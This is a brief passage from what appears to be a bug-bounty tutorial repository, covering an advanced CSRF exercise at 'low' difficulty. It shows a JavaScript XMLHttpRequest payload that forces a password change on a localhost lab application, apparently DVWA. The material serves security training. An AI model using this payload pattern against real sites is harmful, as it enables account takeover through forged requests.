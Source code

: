 # bug-bounty-tutorial
bug bounty tutorial

## 8.CSRF-Advanced

### low
```
const HttpRequest = new XMLHttpRequest();
const url ="http://127.0.0.1:42001/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#";
HttpRequest.open("GET", url);
HttpRequest.send();
```
